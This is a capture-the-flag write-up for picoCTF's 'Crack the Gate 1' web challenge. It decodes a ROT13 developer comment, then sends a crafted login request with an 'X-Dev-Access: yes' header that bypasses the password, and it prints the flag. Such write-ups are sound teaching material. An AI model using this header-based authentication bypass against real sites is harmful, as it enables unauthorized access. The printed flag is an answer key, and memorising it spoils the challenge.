


>>picoCTF — Crack the Gate 1

**Challenge name:** Crack the Gate 1

**Category:** Web / Web Exploitation

**Difficulty:** Easy

**Author:** NIGHTFURY0X01 (Arash)

**Objective:** Bypass the login system by finding a secret developer access mechanism and extract the flag.
--- 

## Summary

+ This challenge involves a login page that appears to require an email and password. The target email is known:

```bash
ctf-player@picoctf.org
```

+ Password guessing attempts fail, but viewing the source code reveals a hidden clue. The developer accidentally left a backdoor via a custom HTTP header. By decoding the message and using the header, we can successfully bypass authentication and retrieve the flag.

---

## Step 1 — Inspecting the Source Code

+ Opening the page source (Ctrl+U), we find a suspicious comment:

```bash
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
<!-- Remove before pushing to production! -->
```


+ The encoded string uses ROT13, a common CTF hint.


## Step 2 — Decoding the Message (ROT13)

+ We decode the message using a simple command:
```bash
echo "hfr urnqre \"K-Qri-Npprff: lrf\"" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
+ This reveals the real content:

```bash
use header "X-Dev-Access: yes"
```


+ This indicates a hidden developer access header that may bypass authentication.

---

## Step 3 — Crafting the HTTP Request

+ Using Burp Suite, we craft a POST request to /login and include the special header:


```bash

POST /login HTTP/1.1
Host: amiable-citadel.picoctf.net:`your_picoCTF_port`
User-Agent: Mozilla/5.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Content-Length: 52
X-Dev-Access: yes

{"email":"ctf-player@picoctf.org","password":"1233"}
```
+ The password does not matter — the developer header triggers privileged access.


## Step 4 — Receiving the Response

+ The server returns:
```bash
{
  "success": true,
  "email": "ctf-player@picoctf.org",
  "firstName": "pico",
  "lastName": "player",
  "flag": "picoCTF{brut4_f0rc4_3e21b3a3}"
}
```


## Result
```bash
Flag: picoCTF{brut4_f0rc4_3e21b3a3}
```


